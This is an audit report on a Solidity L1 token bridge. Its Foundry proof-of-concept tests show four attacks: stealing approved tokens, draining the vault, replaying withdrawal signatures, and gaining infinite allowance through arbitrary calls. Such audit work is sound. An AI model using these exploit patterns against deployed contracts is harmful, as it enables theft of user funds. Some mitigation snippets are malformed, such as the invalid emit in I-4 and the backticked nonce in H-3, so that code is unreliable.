 <!DOCTYPE html>
<html>
<head>
<style>
    .full-page {
        width:  100%;
        height:  100vh; /* This will make the div take up the full viewport height */
        display: flex;
        flex-direction: column;
        justify-content: center;
        align-items: center;
    }
    .full-page img {
        max-width:  100;
        max-height:  100;
        margin-bottom: 5rem;
    }
    .full-page div{
        display: flex;
        flex-direction: column;
        justify-content: center;
        align-items: center;
    }
</style>
</head>
<body>

<div class="full-page">
    <img src="./logo.svg" alt="Logo">
    <div>
    <h1>Protocol Audit Report</h1>
    <h3>Prepared by: Cyfrin</h3>
    </div>
</div>

</body>
</html>

<!-- Your report starts here! -->

# Table of Contents
- [Table of Contents](#table-of-contents)
- [Protocol Summary](#protocol-summary)
- [Disclaimer](#disclaimer)
- [Risk Classification](#risk-classification)
- [Audit Details](#audit-details)
  - [Scope](#scope)
  - [Roles](#roles)
- [Executive Summary](#executive-summary)
  - [Issues found](#issues-found)
- [Findings](#findings)
  - [High](#high)
    - [\[H-1\] Users who give tokens approvals to `L1BossBridge` may have those asset stolen.](#h-1-users-who-give-tokens-approvals-to-l1bossbridge-may-have-those-asset-stolen)
    - [\[H-2\] Attacker can also drain all of the money of the vault.](#h-2-attacker-can-also-drain-all-of-the-money-of-the-vault)
    - [\[H-3\] The user can replay the withdrawls at `L1BossBridge::sendToL1`.](#h-3-the-user-can-replay-the-withdrawls-at-l1bossbridgesendtol1)
    - [\[H-4\] `CREATE` opcode does not work on zksync era](#h-4-create-opcode-does-not-work-on-zksync-era)
    - [\[H-5\] `L1BossBridge::sendToL1` allowing arbitrary calls enables users to call `L1Vault::approveTo` and give themselves infinite allowance of vault funds](#h-5-l1bossbridgesendtol1-allowing-arbitrary-calls-enables-users-to-call-l1vaultapproveto-and-give-themselves-infinite-allowance-of-vault-funds)
  - [Medium](#medium)
    - [\[M-1\] Withdrawals are prone to unbounded gas consumption due to return bombs](#m-1-withdrawals-are-prone-to-unbounded-gas-consumption-due-to-return-bombs)
  - [Low](#low)
    - [\[L-1\] `TokenFactory::deployToken` can create multiple token with same `symbol`.](#l-1-tokenfactorydeploytoken-can-create-multiple-token-with-same-symbol)
  - [Informational](#informational)
    - [\[I-1\] The DEPOSIT\_LIMIT should be constant on `L1BossBridge`.](#i-1-the-deposit_limit-should-be-constant-on-l1bossbridge)
    - [\[I-2\] The function `depositTokensToL2` should follow CEI.](#i-2-the-function-deposittokenstol2-should-follow-cei)
    - [\[I-3\] The `L1Vault::token` should be immutable.](#i-3-the-l1vaulttoken-should-be-immutable)
    - [\[I-4\] The `L1Vault::approveTo` should check the return value of approve.](#i-4-the-l1vaultapproveto-should-check-the-return-value-of-approve)
    - [\[I-5\] Insufficient test coverage](#i-5-insufficient-test-coverage)

# Protocol Summary

This project presents a simple bridge mechanism to move our ERC20 token from L1 to an L2 we're building.
The L2 part of the bridge is still under construction, so we don't include it here.

In a nutshell, the bridge allows users to deposit tokens, which are held into a secure vault on L1. Successful deposits trigger an event that our off-chain mechanism picks up, parses it and mints the corresponding tokens on L2.

# Disclaimer

The Bikalpa Regmi makes all effort to find as many vulnerabilities in the code in the given time period, but holds no responsibilities for the findings provided in this document. A security audit by the team is not an endorsement of the underlying business or product. The audit was time-boxed and the review of the code was solely on the security aspects of the Solidity implementation of the contracts.

# Risk Classification

|            |        | Impact |        |     |
| ---------- | ------ | ------ | ------ | --- |
|            |        | High   | Medium | Low |
|            | High   | H      | H/M    | M   |
| Likelihood | Medium | H/M    | M      | M/L |
|            | Low    | M      | M/L    | L   |

We use the [CodeHawks](https://docs.codehawks.com/hawks-auditors/how-to-evaluate-a-finding-severity) severity matrix to determine severity. See the documentation for more details.

# Audit Details 

- Commit Hash: 07af21653ab3e8a8362bf5f63eb058047f562375

## Scope 

```
./src/
#-- L1BossBridge.sol
#-- L1Token.sol
#-- L1Vault.sol
#-- TokenFactory.sol
```

## Roles

- Bridge Owner: A centralized bridge owner who can:
  - pause/unpause the bridge in the event of an emergency
  - set `Signers` (see below)
- Signer: Users who can "send" a token from L2 -> L1. 
- Vault: The contract owned by the bridge that holds the tokens. 
- Users: Users mainly only call `depositTokensToL2`, when they want to send tokens from L1 -> L2.
  
# Executive Summary
We spended 15 hours auditing this protocol and found 12 bugs with 5 higher ones.

## Issues found

| Severity | Number of Issue Found |
| -------- | --------------------- |
| High     | 5                     |
| Medium   | 1                     |
| Low      | 1                     |
| gas      | 0                     |
| Info     | 5                     |
| Total    | 12                    |

# Findings

## High

### [H-1] Users who give tokens approvals to `L1BossBridge` may have those asset stolen.

**Description :** The `depositTokensToL2` allows anyone to call that function using `from` parameter. 

**Impact :** The attacker can move the token of anyone who has approved token allowance to move on their behalf. He can assign himself the token after victim money is moved to vault.

**Proof of Concept :** Add the following proof of code in `L1TokenBridge.t.sol`.

<details>

```javascript
 function testCanMoveApprovedTokenOfOtherToken() external {
        // Poor alice approving
        vm.prank(user) ;
        token.approve(address(tokenBridge) , type(uint256).max) ;

        // BOB
        uint256 depositAmount =  token.balanceOf(user) ;
        address attacker = makeAddr("Attacker") ;

        vm.startPrank(attacker);
        vm.expectEmit(address(tokenBridge)) ;
        emit Deposit(user , attacker , depositAmount) ;
        tokenBridge.depositTokensToL2(user , attacker , depositAmount) ;

        assertEq(token.balanceOf(user) , 0) ;
        assertEq(token.balanceOf(address(vault)) , depositAmount) ;
        vm.stopPrank() ;

    }
```
</details>

**Recommended Mitigation :** Consider modyfing the `depositTokensToL2` function in such a way that attacker can't specify from address.

```diff
- function depositTokensToL2(address from, address l2Recipient, uint256 amount) external whenNotPaused {
+ function depositTokensToL2( address l2Recipient, uint256 amount) external whenNotPaused {
        if (token.balanceOf(address(vault)) + amount > DEPOSIT_LIMIT) {
            revert L1BossBridge__DepositLimitReached();
        }
-        token.safeTransferFrom(from, address(vault), amount);
+        token.safeTransferFrom(msg.sender, address(vault), amount);

        // Our off-chain service picks up this event and mints the corresponding tokens on L2
        emit Deposit(from, l2Recipient, amount);
    }

```

### [H-2] Attacker can also drain all of the money of the vault.

**Description :** The `depositTokensToL2` function allows to specify the `from` parameters to deposit the money to L2. However, the vault allow all of the token to spend by bridge.

**Impact :** The attacker can easily specify vault address in from parameter of vault address and drain out all of the funds to thier address on L2.

**Proof of Concept :** Paste the following proof of code in `L1TokenBridge.t.sol`.

```javascript
function testCanTransferFromVaultToVault() external {
address attacker = makeAddr("Attacker") ;
uint256 vaultBalance = 500 ether ;

deal(address(token) , address(vault) , vaultBalance) ;

vm.expectEmit(address(tokenBridge)) ;
emit Deposit(address(vault)  , attacker , vaultBalance);

tokenBridge.depositTokensToL2(address(vault) , attacker , vaultBalance) ;
}
```

**Recommended Mitigation :** As suggested in `H1`, Consider modyfing the `depositTokensToL2` function in such a way that attacker can't specify from address.

### [H-3] The user can replay the withdrawls at `L1BossBridge::sendToL1`.

**Description :** Users who want to withdraw tokens from the bridge can call the `sendToL1` function, or the wrapper `withdrawTokensToL1` function. These functions require the caller to send along some withdrawal data signed by one of the approved bridge operators.


**Impact :** However, the signatures do not include any kind of replay-protection mechanisn (e.g., nonces). Therefore, valid signatures from any  bridge operator can be reused by any attacker to continue executing withdrawals until the vault is completely drained.


**Proof of Concept :** Paste the following proof of code at `L1TokenBridge.t.sol`.

<details>

```java
function testCanReplayWithdrawals() public {
    // Assume the vault already holds some tokens
    address attacker = makeAddr("attacker");
    uint256 vaultInitialBalance = 1000e18;
    uint256 attackerInitialBalance = 100e18;
    deal(address(token), address(vault), vaultInitialBalance);
    deal(address(token), address(attacker), attackerInitialBalance);

    // An attacker deposits tokens to L2
    vm.startPrank(attacker);
    token.approve(address(tokenBridge), type(uint256).max);
    tokenBridge.depositTokensToL2(attacker, attacker, attackerInitialBalance);

    // Operator signs withdrawal.
    (uint8 v, bytes32 r, bytes32 s) =
        _signMessage(_getTokenWithdrawalMessage(attacker, attackerInitialBalance), operator.key);

    // The attacker can reuse the signature and drain the vault.
    while (token.balanceOf(address(vault)) > 0) {
        tokenBridge.withdrawTokensToL1(attacker, attackerInitialBalance, v, r, s);
    }
    assertEq(token.balanceOf(address(attacker)), attackerInitialBalance + vaultInitialBalance);
    assertEq(token.balanceOf(address(vault)), 0);
}
```

</details>

**Recommended Mitigation :**Consider redesigning the withdrawal mechanism so that it includes replay protection.

<details>

```java
function sendToL1(uint8 v, bytes32 r, bytes32 s, bytes memory message) public {
    (address target, uint256 value, bytes memory data, uint256 nonce) = abi.decode(message, (address, uint256, bytes, uint256));

    address signer = ECDSA.recover(
        MessageHashUtils.toEthSignedMessageHash(
            keccak256(abi.encodePacked(target, value, data, nonce))
        ),
        v, r, s
    );

    if (!signers[signer]) {
        revert L1BossBridge__Unauthorized();
    }

    if (`nonce` != nonces[signer]) {
        revert InvalidNonce();
    }

    nonces[signer]++;

    (bool success,) = target.call{value: value}(data);
    if (!success) {
        revert L1BossBridge__CallFailed();
    }
}

```
</details>


### [H-4] `CREATE` opcode does not work on zksync era

**Description :** The `create` opcode written in `TokenFactory::deployToken` doesn't work if used in zksync era. It currently does not support it.

**Impact :** The `TokenFactory::deployToken` is useless and the contract's one of the major protocol is broken.

**Recommended Mitigation :** Find better alternative instead of `create` opcode.


### [H-5] `L1BossBridge::sendToL1` allowing arbitrary calls enables users to call `L1Vault::approveTo` and give themselves infinite allowance of vault funds

The `L1BossBridge` contract includes the `sendToL1` function that, if called with a valid signature by an operator, can execute arbitrary low-level calls to any given target. Because there's no restrictions neither on the target nor the calldata, this call could be used by an attacker to execute sensitive contracts of the bridge. For example, the `L1Vault` contract.

The `L1BossBridge` contract owns the `L1Vault` contract. Therefore, an attacker could submit a call that targets the vault and executes is `approveTo` function, passing an attacker-controlled address to increase its allowance. This would then allow the attacker to completely drain the vault.

It's worth noting that this attack's likelihood depends on the level of sophistication of the off-chain validations implemented by the operators that approve and sign withdrawals. However, we're rating it as a High severity issue because, according to the available documentation, the only validation made by off-chain services is that "the account submitting the withdrawal has first originated a successful deposit in the L1 part of the bridge". As the next PoC shows, such validation is not enough to prevent the attack.

To reproduce, include the following test in the `L1BossBridge.t.sol` file:

```javascript
function testCanCallVaultApproveFromBridgeAndDrainVault() public {
    uint256 vaultInitialBalance = 1000e18;
    deal(address(token), address(vault), vaultInitialBalance);

    // An attacker deposits tokens to L2. We do this under the assumption that the
    // bridge operator needs to see a valid deposit tx to then allow us to request a withdrawal.
    vm.startPrank(attacker);
    vm.expectEmit(address(tokenBridge));
    emit Deposit(address(attacker), address(0), 0);
    tokenBridge.depositTokensToL2(attacker, address(0), 0);

    // Under the assumption that the bridge operator doesn't validate bytes being signed
    bytes memory message = abi.encode(
        address(vault), // target
        0, // value
        abi.encodeCall(L1Vault.approveTo, (address(attacker), type(uint256).max)) // data
    );
    (uint8 v, bytes32 r, bytes32 s) = _signMessage(message, operator.key);

    tokenBridge.sendToL1(v, r, s, message);
    assertEq(token.allowance(address(vault), attacker), type(uint256).max);
    token.transferFrom(address(vault), attacker, token.balanceOf(address(vault)));
}
```

Consider disallowing attacker-controlled external calls to sensitive components of the bridge, such as the `L1Vault` contract.

---
---

## Medium

### [M-1] Withdrawals are prone to unbounded gas consumption due to return bombs

During withdrawals, the L1 part of the bridge executes a low-level call to an arbitrary target passing all available gas. While this would work fine for regular targets, it may not for adversarial ones.

In particular, a malicious target may drop a [return bomb](https://github.com/nomad-xyz/ExcessivelySafeCall) to the caller. This would be done by returning an large amount of returndata in the call, which Solidity would copy to memory, thus increasing gas costs due to the expensive memory operations. Callers unaware of this risk may not set the transaction's gas limit sensibly, and therefore be tricked to spent more ETH than necessary to execute the call.

If the external call's returndata is not to be used, then consider modifying the call to avoid copying any of the data. This can be done in a custom implementation, or reusing external libraries such as [this one](https://github.com/nomad-xyz/ExcessivelySafeCall).

---
---

## Low

### [L-1] `TokenFactory::deployToken` can create multiple token with same `symbol`.

---
---

## Informational

### [I-1] The DEPOSIT_LIMIT should be constant on `L1BossBridge`.

```diff
-    uint256 public DEPOSIT_LIMIT = 100_000 ether;
+    uint256 public constant DEPOSIT_LIMIT = 100_000 ether;
```

### [I-2] The function `depositTokensToL2` should follow CEI.

```diff
function depositTokensToL2(address from, address l2Recipient, uint256 amount) external whenNotPaused {
        if (token.balanceOf(address(vault)) + amount > DEPOSIT_LIMIT) {
            revert L1BossBridge__DepositLimitReached();
        }

+       emit Deposit(from, l2Recipient, amount);

        token.safeTransferFrom(from, address(vault), amount);

        // Our off-chain service picks up this event and mints the corresponding tokens on L2
-        emit Deposit(from, l2Recipient, amount);
    }
```

### [I-3] The `L1Vault::token` should be immutable.

```diff
- IERC20 public token;
+ IERC20 public immutable token;
```

### [I-4] The `L1Vault::approveTo` should check the return value of approve.

```diff
 function approveTo(address target, uint256 amount) external onlyOwner {
        token.approve(target, amount);
+        emit(target , amount) ;
    }
```

### [I-5] Insufficient test coverage

```
Running tests...
| File                 | % Lines        | % Statements   | % Branches    | % Funcs       |
| -------------------- | -------------- | -------------- | ------------- | ------------- |
| src/L1BossBridge.sol | 86.67% (13/15) | 90.00% (18/20) | 83.33% (5/6)  | 83.33% (5/6)  |
| src/L1Vault.sol      | 0.00% (0/1)    | 0.00% (0/1)    | 100.00% (0/0) | 0.00% (0/1)   |
| src/TokenFactory.sol | 100.00% (4/4)  | 100.00% (4/4)  | 100.00% (0/0) | 100.00% (2/2) |
| Total                | 85.00% (17/20) | 88.00% (22/25) | 83.33% (5/6)  | 77.78% (7/9)  |
```

**Recommended Mitigation:** Aim to get test coverage up to over 90% for all files.